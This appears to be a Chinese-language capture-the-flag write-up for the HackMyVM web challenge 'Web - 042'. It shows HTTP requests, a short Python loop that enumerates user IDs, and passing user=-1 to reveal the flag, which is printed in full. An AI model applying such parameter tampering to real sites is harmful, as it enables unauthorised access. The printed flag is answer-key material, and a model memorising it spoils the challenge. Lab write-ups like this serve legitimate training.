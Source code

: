 # Web - 042

:::note

created by || sml

⏲️ Release Date // 2022-03-07

💀 Solvers // 68

🧩 Type // web

`http://momo.hackmyvm.eu/n1lsfr4hm/`

:::

直接访问得到

```bash
┌─[randark@parrot]─[~]
└──╼ $http get http://momo.hackmyvm.eu/n1lsfr4hm/
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Fri, 02 Feb 2024 07:47:59 GMT
Server: nginx/1.18.0
Transfer-Encoding: chunked

<a href="/index.php?user=1">John</a>
<a href="/index.php?user=2">Monroe</a>
<a href="/index.php?user=3">Vault</a>
<a href="/index.php?user=4">{</a>
<a href="/index.php?user=6">Wesley</a>
<a href="/index.php?user=7">Teresa</a>
<a href="/index.php?user=8">Fredric</a>
<a href="/index.php?user=9">}</a>
```

使用脚本爬取各个页面的信息

```python
import requests

url = "http://momo.hackmyvm.eu/n1lsfr4hm/index.php?user={}"

for i in range(1, 10):
    res = requests.get(url.format(i)).text
    print(res.split("\n")[-1].replace("<br>", ""))
```

得到

```plaintext
Hello Where Are Your o_O Super Easy Flag ?
```

想复杂了，传个 `-1` 即可

```html
┌─[randark@parrot]─[~]
└──╼ $http get http://momo.hackmyvm.eu/n1lsfr4hm/index.php?user=-1
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=UTF-8
Date: Fri, 02 Feb 2024 08:08:27 GMT
Server: nginx/1.18.0
Transfer-Encoding: chunked

<a href="/index.php?user=1">John</a>
<a href="/index.php?user=2">Monroe</a>
<a href="/index.php?user=3">Vault</a>
<a href="/index.php?user=4">{</a>
<a href="/index.php?user=6">Wesley</a>
<a href="/index.php?user=7">Teresa</a>
<a href="/index.php?user=8">Fredric</a>
<a href="/index.php?user=9">}</a>
<br><br><br>HMV{fcknumbers}
```
